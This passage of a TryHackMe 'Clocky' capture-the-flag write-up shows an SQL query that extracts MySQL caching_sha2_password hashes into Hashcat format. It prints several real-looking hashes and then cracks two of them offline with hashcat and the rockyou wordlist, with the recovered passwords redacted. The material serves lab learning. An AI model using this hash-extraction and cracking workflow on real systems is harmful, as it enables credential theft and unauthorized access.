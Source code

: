 After several researches, I found this [issue](https://github.com/hashcat/hashcat/issues/3049) on GitHub that gives the SQL query used to extract this hashes into Hashcat format. 
```bash
mysql> SELECT user, CONCAT('$mysql',LEFT(authentication_string,6),'*',INSERT(HEX(SUBSTR(authentication_string,8)),41,0,'*')) AS hash FROM user WHERE plugin = 'caching_sha2_password' AND authentication_string NOT LIKE '%INVALIDSALTANDPASSWORD%';
+------------------+----------------------------------------------------------------------------------------------------------------------------------------------+
| user             | hash                                                                                                                                         |
+------------------+----------------------------------------------------------------------------------------------------------------------------------------------+
| clocky_user      | $mysql$A$005*077E1B6B675D350F435D5D1C686D12566C08635A*5566386F49543936423756525A68516962735568536535654B62486D344C71316B7338707A78446B4E4D39 |
| dev              | <REDACTED>                                                                                                                                   |
| clocky_user      | $mysql$A$005*63671A7C5C3E425E3A0C794352306B531456162B*58774E44786D326C44443557334A39353531676A6C566D4F5A395A39684832537A61696C786D32566B4C2E |
| debian-sys-maint | $mysql$A$005*456268331A4E3561236636480E4D3F78462A7553*716A4E6262555947697444712F79464C4D384C62617544683833517472615161455479366E5A5774576332 |
| dev              | <REDACTED>                                                                                                                                   |
+------------------+----------------------------------------------------------------------------------------------------------------------------------------------+
5 rows in set (0.00 sec)
```

Since we already know the password of the custom user clocky_user, Let's copy that of dev and attempt an offline brute force attack.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Clocky/Misc File]
└─$ cat hashes 
$mysql$A$005*0D172F787569054E322523067049563540383D17*XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
$mysql$A$005*1C160A38777C5121134E5D725A58216D5A1D5C3F*XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Clocky/Misc File]
└─$ hashcat -m 7401 -a 0 hashes /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting
<SNIP>
$mysql$A$005*1C160A38777C5121134E5D725A58216D5A1D5C3F*XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:<REDACTED>
$mysql$A$005*0D172F787569054E322523067049563540383D17*XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:<REDACTED>
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 7401 (MySQL $A$ (sha256crypt))
Hash.Target......: hashes
Time.Started.....: Fri Oct 18 20:11:02 2024 (59 secs)
Time.Estimated...: Fri Oct 18 20:12:01 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (.rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     1710 H/s (7.44ms) @ Accel:32 Loops:256 Thr:1 Vec:8
Recovered........: 2/2 (100.00%) Digests (total), 2/2 (100.00%) Digests (new), 2/2 (100.00%) Salts
Progress.........: 100352/28688770 (0.35%)
Rejected.........: 0/100352 (0.00%)
Restore.Point....: 49920/14344385 (0.35%)
Restore.Sub.#1...: Salt:1 Amplifier:0-1 Iteration:4864-5000
Candidate.Engine.: Device Generator
Candidates.#1....: bobocel -> 151182
```